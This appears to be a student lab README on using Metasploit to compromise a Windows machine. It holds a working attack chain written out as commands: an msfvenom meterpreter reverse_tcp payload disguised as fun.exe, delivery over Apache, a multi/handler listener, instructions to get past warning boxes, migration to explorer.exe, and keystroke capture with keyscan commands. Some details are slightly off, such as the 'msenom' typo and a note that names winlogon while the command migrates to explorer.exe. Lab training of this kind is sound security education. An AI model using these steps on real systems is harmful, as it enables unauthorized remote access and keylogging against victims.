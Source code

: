 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![Screenshot 2025-04-07 110609](https://github.com/user-attachments/assets/9244b6df-682a-4925-8437-990b37e7e202)





Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![Screenshot 2025-04-07 111401](https://github.com/user-attachments/assets/5469dce6-90fb-4c7c-a969-40777915f820)





copy the fun.exe into the apache /var/www/html folder


![Screenshot 2025-04-07 111757](https://github.com/user-attachments/assets/9b463b17-fee2-4c8c-9bea-0deedb00779a)





Start apache server
sudo systemctl apache2 start

![Screenshot 2025-04-07 111807](https://github.com/user-attachments/assets/d1a1d860-58b2-4983-953f-80178b2fe09c)



Check the status of apache2
![Screenshot 2025-04-07 115230](https://github.com/user-attachments/assets/542fc8c2-6166-4994-87f7-9cba22527af6)




Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![Screenshot 2025-04-11 135734](https://github.com/user-attachments/assets/3e73156c-1895-400b-8864-289c2eca698b)





On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.14.241/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/user-attachments/assets/b8a94154-39f4-492d-9328-a12caeb16461)



Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 




Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![9](https://github.com/praveenst13/Compromising-windows-using-Metasploit/assets/118787793/85fb473c-59fe-4042-b163-552fddc735d1)



keyscan_dump	Shows the keystrokes captured so far
![Screenshot 2025-04-07 115329](https://github.com/user-attachments/assets/2fb57481-4077-43d8-80a8-5162251ad7f2)




## RESULT:
The Metasploit framework for reconnaissance is  examined successfully
